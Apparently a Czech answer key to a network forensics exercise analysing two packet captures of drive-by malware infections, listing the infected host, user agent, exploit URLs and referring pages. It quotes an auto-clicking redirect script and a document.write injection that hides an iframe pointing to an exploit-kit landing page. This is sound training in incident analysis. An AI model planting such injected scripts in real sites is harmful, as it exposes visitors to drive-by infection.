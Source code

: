 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html
```

### 2. Jak se uživatel dostal na danou doménu?

```
http://www.bing.com/search?q=home+improvement+remodeling+your+kitchen&qs=n&sp=-1&pq=home+improvement+remodeling+your+kitchen&sc=0-40&sk=&cvid=194EC908DA65455B9E9A98285A33132B&first=7&FORM=PERE
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```
http://p27dokhpz2n7nvgr.1jw2lx.top/EE7E-AD39-7D8C-080C-18BF?iframe&_=1485557725652
```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

Script `http://retrotip.visionurbana.com.ve/dle_js.js` na adrese `http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

